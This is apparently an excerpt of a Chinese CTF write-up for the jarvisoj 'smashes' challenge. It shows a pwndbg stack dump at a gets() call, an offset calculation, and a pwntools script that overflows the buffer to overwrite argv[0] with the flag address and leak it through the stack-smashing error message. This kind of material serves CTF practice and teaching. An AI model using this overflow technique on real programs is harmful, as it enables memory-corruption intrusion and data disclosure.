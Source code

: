 	0x400806 call __printf_chk@plt <0x4006b0>

	0x40080b mov rdi, rsp

	► 0x40080e call _IO_gets@plt <0x4006c0>

	rdi: 0x7fffffffded0 —▸ 0x7fffffffe040 —▸ 0x4006ee ◂— xor ebp, ebp

	rsi: 0x19

	rdx: 0x7ffff7dd18c0 (_IO_stdfile_1_lock) ◂— 0x0

	rcx: 0x0

	0x400813 test rax, rax

	0x400816 je 0x40089f

	0x40081c mov rdx, rsp

	0x40081f mov esi, 0x400960

	0x400824 mov edi, 1

	──────────────────────────────────────────────────────[ STACK]──────────────────────────────────────────────────────

	00:0000│ rdi rsp 0x7fffffffded0 —▸ 0x7fffffffe040 —▸ 0x4006ee ◂— xor ebp, ebp

	01:0008│ 0x7fffffffded8 —▸ 0x7ffff7ffe710 —▸ 0x7ffff7ffa000 ◂— jg 0x7ffff7ffa047

	02:0010│ 0x7fffffffdee0 ◂— 0x0

	03:0018│ 0x7fffffffdee8 —▸ 0x7ffff7de01ef (_dl_lookup_symbol_x+319) ◂— add rsp,
	0x30

	04:0020│ 0x7fffffffdef0 ◂— 0x0

	05:0028│ 0x7fffffffdef8 —▸ 0x7fffffffe040 —▸ 0x4006ee ◂— xor ebp, ebp

	06:0030│ 0x7fffffffdf00 ◂— 0x2

	07:0038│ 0x7fffffffdf08 ◂— 0x800000000000000e

gets所在的RSP为0x7fffffffded0，所以便宜的位置就是0x7fffffffded0-0x7fffffffe0e8

接下来就是写exp了

	from pwn import *

	r=process('./smashes')

	#r=remote('pwn.jarvisoj.com',9877)

	flag_addr=0x400d20

	argv_addr=0x7fffffffe0e8

	gets_rsp_addr=0x7fffffffded0

	payload='a'*(argv_addr-gets_rsp_addr)+p64(flag_addr)

	r.recvline("What's your name?n")

	r.sendline(payload)

